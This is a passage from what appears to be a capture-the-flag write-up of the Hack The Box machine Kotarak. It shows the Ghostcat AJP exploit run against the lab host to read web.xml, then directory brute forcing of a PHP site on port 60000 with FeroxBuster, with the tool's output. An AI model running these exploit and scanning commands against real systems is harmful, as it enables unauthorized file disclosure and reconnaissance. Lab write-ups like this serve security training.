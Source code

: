     
    
    oxdf@parrot$ python2 ghostcat.py -p 8009 -f WEB-INF/web.xml 10.10.10.55
    Getting resource at ajp13://10.10.10.55:8009/asdf
    ----------------------------
    <?xml version="1.0" encoding="UTF-8"?>
    <!--
    ...[snip]...
    -->
    <web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
      xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
      xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                          http://xmlns.jcp.org/xml/ns/javaee/web-app_3_1.xsd"
      version="3.1"
      metadata-complete="true">
    
      <display-name>Welcome to Tomcat</display-name>
      <description>
         Welcome to Tomcat
      </description>
    
    </web-app>
    

Still, there’s not much of interest in that folder, and trying to read outside
that folder fails.

### HTTP - TCP 60000

#### Site

The site is the Kotarak Web Hosting Private Browser:

![image-20210513173429593](https://0xdfimages.gitlab.io/img/image-20210513173429593.png)

None of the links lead anywhere.

#### Tech Stack

The HTTP response headers don’t show much besides Apache. Guessing at what
page the root might be, `index.html` doesn’t exist, but `index.php` does, so
the site is running PHP over Apache.

#### Directory Brute Force

Running [FeroxBuster](https://github.com/epi052/feroxbuster) with `-x php` to
include PHP extensions shows three pages:

    
    
    oxdf@parrot$ feroxbuster -u http://10.10.10.55:60000 -o scans/ferox-60000-root -x php
    
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.2.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://10.10.10.55:60000
     🚀  Threads               │ 50
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.2.1
     💉  Config File           │ /etc/feroxbuster/ferox-config.toml
     💾  Output File           │ scans/ferox-60000-root
     💲  Extensions            │ [php]
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest